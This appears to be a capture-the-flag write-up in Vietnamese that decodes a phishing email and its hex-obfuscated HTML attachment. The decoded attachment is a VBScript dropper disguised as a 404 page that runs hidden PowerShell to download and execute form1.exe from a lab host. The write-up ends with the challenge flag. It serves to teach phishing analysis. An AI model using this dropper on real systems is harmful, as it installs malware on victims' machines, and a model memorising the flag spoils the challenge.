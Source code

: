 Tải file về: 
![image](https://github.com/user-attachments/assets/0b31031f-7464-48d2-b4da-1ee88dbd52cb)

-  Văn bản được chuyển thành mã base 64, chuyển từ base 64 sang text
-  "<div style="font-family: Arial, sans-serif; font-size: 14px;"><span style="font-family: Monaco, Menlo, Consolas, &quot;Courier New&quot;, monospace; font-size: 12px; font-variant-ligatures: none; text-align: left; white-space: pre-wrap; display: inline !important; color: rgb(209, 210, 211); background-color: rgba(232, 232, 232, 0.04);">Dear Fellow Faction Leader,
I hope this message reaches you in good stead amidst the chaos of The Fray. I write to you with an offer of alliance and resistance against the oppressive regime of KORP™.
It has come to my attention that KORP™, under the guise of facilitating The Fray, seeks to maintain its stranglehold over our society. They manipulate and exploit factions for their own gain, while suppressing dissent and innovation.
But we refuse to be pawns in their game any longer. We are assembling a coalition of like-minded factions, united in our desire to challenge KORP™'s dominance and usher in a new era of freedom and equality.
Your faction has been specifically chosen for its potential to contribute to our cause. Together, we possess the skills, resources, and determination to defy KORP™'s tyranny and emerge victorious.
Join us in solidarity against our common oppressor. Together, we can dismantle the structures of power that seek to control us and pave the way for a brighter future.
Reply to this message if you share our vision and are willing to take a stand against KORP™. Together, we will be unstoppable. Please find our online form attached.
In solidarity,
Anonymous member
Leader of the Resistance</span><br></div>�=�ݝ��y��}��m7k���}"

![image](https://github.com/user-attachments/assets/6bf13dc1-b1ed-42a9-a5d5-edb2fafecd46)

- Chuyển tiếp sang text
 ```
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0d%0a%3c%68%65%61%64%3e%0d%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0d%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0d%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0d%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0d%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0d%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0d%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0d%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0d%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0d%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0d%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0d%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0d%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%73%3a%2f%2f%73%74%61%6e%64%75%6e%69%74%65%64%2e%68%74%62%2f%6f%6e%6c%69%6e%65%2f%66%6f%72%6d%73%2f%66%6f%72%6d%31%2e%65%78%65%27%2c%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%3b%24%66%6c%61%67%3d%27%48%54%42%7b%34%6e%30%74%68%33%72%5f%64%34%79%5f%34%6e%30%74%68%33%72%5f%70%68%31%73%68%69%31%6e%67%5f%34%74%74%33%6d%70%54%7d%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0d%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0d%0a%65%6e%64%20%73%75%62%0d%0a%3c%2f%73%63%72%69%70%74%3e%0d%0a%3c%2f%68%65%61%64%3e%0d%0a%3c%2f%68%74%6d%6c%3e%0d%0a'));
</script>
</body>
</html>
�{F�����}���ߧ�駞뇸{"
```
- Nhận biết đây là mã Hex. chuyển tiếp từ mã hex sang text:
```
<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
```
- flag: HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}

